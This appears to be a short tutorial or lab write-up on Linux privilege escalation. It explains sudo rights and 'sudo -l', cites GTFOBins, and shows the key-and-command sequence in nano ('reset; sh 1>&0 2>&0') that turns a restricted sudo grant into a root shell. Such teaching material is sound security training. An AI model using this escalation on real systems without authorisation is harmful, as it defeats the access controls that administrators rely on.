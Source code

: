 SUDO :

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the "sudo -l" command.

![sudol](https://user-images.githubusercontent.com/94765997/162626342-604f13a4-bda5-4060-9e6c-168e41dcef65.png)



https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Let's try with nano command  :


![11](https://user-images.githubusercontent.com/94765997/162626454-50dbd529-6bb4-464c-b907-b97589aa1296.png)

and sudo function : 


![12](https://user-images.githubusercontent.com/94765997/162626515-9683d138-0778-48bc-8f4b-55fcf24274a4.png)

After access it over SSH with the low-privilege user run :

    sudo nano
    ^R^X
and execute command :

    reset; sh 1>&0 2>&0
 
 ![sudonano](https://user-images.githubusercontent.com/94765997/162626675-9763986d-295f-4540-9d21-465e2a545e47.png)
 
 and get root privileges :
 
 

 
![13](https://user-images.githubusercontent.com/94765997/162626746-cec26f2a-3bf9-4d93-8e0a-1caf8766fedb.png)

